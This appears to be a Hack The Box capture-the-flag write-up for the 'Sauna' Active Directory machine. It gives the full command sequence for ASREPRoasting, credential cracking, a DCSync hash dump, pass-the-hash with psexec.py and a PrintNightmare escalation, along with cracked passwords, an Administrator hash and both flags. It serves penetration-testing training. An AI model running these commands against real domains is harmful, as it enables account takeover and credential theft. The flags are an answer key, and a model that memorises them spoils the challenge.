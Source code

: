 # 🧪 Machine Name: Sauna

**Platform:** Hack The Box  
**IP Address:** 10.129.95.180  
**Difficulty:** Easy  
**Category:** Windows / Active Directory

---

## 🧭 Overview

Sauna is an Easy-rated Windows Active Directory machine that starts with username enumeration from a company website and leads into ASREPRoasting. Once initial access is gained via WinRM using a cracked password, privilege escalation is achieved by identifying autologon credentials and using BloodHound to find DCSync rights. The box can also be rooted via PrintNightmare.

---

## 🔍 Enumeration

- Port 80 hosts a company website listing employee names.
- ASREPRoasting on `fsmith` via `GetNPUsers.py` yields a crackable hash.
- WinRM is open on port 5985 and allows access with cracked credentials.
- `winPEAS` reveals stored autologon creds for `svc_loanmgr`.
- BloodHound shows `svc_loanmgr` has `DS-Replication-Get-Changes-All`, enabling DCSync.
- Using `secretsdump.py`, we dump the Administrator hash.
- We then use `psexec.py` with the dumped hash to gain a SYSTEM shell.

---

## 🧪 Exploitation

### Initial Access
```bash
GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -dc-ip $target -usersfile users.txt -outputfile hashes.txt
john --wordlist=rockyou.txt hashes.txt
evil-winrm -i $target -u fsmith -p Thestrokes23
```

### Privilege Escalation Path 1 (Intended)
```bash
# Grab autologon creds with winPEAS
# Login as svc_loanmgr
# Dump domain hashes with secretsdump
secretsdump.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr:'Moneymakestheworldgoround!'@$target
psexec.py EGOTISTICAL-BANK.LOCAL/Administrator@$target -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

### Privilege Escalation Path 2 (Alternative)
```bash
# Use PrintNightmare to create a new admin user
Invoke-Nightmare via Evil-WinRM
evil-winrm -i $target -u adm1n -p 'P@ssw0rd'
```

---

## 📜 Flags

- `user.txt`: `d877e054079380297969152d0bfa7750`
- `root.txt`: `291b6896f3974bbef8b42b7805735bcc`

---

## 🎓 Lessons Learned

- Kerberoasting and ASREPRoasting are common foothold techniques on AD boxes.
- Username generation tools combined with website content are effective.
- PrivEsc via DCSync is textbook — always check for replication rights!
- PrintNightmare still works as an unintended path on many HTB boxes.

